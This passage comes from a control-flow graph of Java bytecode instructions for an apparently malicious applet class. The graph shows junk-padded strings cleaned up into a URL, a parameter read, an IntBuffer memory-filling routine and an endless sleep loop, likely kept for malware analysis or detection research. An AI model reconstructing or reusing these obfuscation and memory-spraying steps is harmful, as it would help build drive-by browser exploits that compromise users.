    "push \"EMMMMM6C6MMMMFMMM6MMM16M4M54MMM6MFMMMMMM46696MMMMC6541MMMMMMM00M7MMMM064MMM6MM67MMMM5M7MMM0642EMMMM657MMMM8MMM650M0637MM261MMM73M682E7M0MM6870M00\""->"push \"M\"";
    "push \"M\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r14"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r14";
    "load.r r0"
    "store.r r14"->"load.r r0";
    "push \"siEEtEEEe\""
    "load.r r0"->"push \"siEEtEEEe\"";
    "push \"E\""
    "push \"siEEtEEEe\""->"push \"E\"";
    "push \"E\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <MyName: java.lang.String getParameter(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <MyName: java.lang.String getParameter(java.lang.String)>";
    "push \"0N090\""
    "virtualinvoke <MyName: java.lang.String getParameter(java.lang.String)>"->"push \"0N090\"";
    "push \"N\""
    "push \"0N090\""->"push \"N\"";
    "push \"N\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "store.r r17"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"store.r r17";
    "staticinvoke <Is: java.lang.String __m(java.lang.String)>"
    "store.r r17"->"staticinvoke <Is: java.lang.String __m(java.lang.String)>";
    "store.r r148"
    "staticinvoke <Is: java.lang.String __m(java.lang.String)>"->"store.r r148";
    "store.r r148"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r14"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r14";
    "load.r r14"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r14";
    "store.r r14"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r14";
    "load.r r14"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r148"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r148";
    "load.r r148"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r0"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r0";
    "store.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "load.r r0"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r17"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r17";
    "load.r r17"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "new java.net.URL"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"new java.net.URL";
    "new java.net.URL"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"load.r r140";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r140"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "push \"9090bbbbbb909bbbb0\""
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"push \"9090bbbbbb909bbbb0\"";
    "push \"b\""
    "push \"9090bbbbbb909bbbb0\""->"push \"b\"";
    "push \"b\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <MyName: java.nio.IntBuffer[] __A(java.lang.String,java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <MyName: java.nio.IntBuffer[] __A(java.lang.String,java.lang.String)>";
    "fieldput <MyName: java.nio.IntBuffer[] mem>"
    "virtualinvoke <MyName: java.nio.IntBuffer[] __A(java.lang.String,java.lang.String)>"->"fieldput <MyName: java.nio.IntBuffer[] mem>";
    "fieldput <MyName: java.nio.IntBuffer[] mem>"->"load.r r0";
    "staticinvoke <Phone: void init(java.net.URL)>"
    "load.r r0"->"staticinvoke <Phone: void init(java.net.URL)>";
    "push 10L"
    "staticinvoke <Phone: void init(java.net.URL)>"->"push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto push 10L"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r r0";
    "store.r r0"->"return";
}
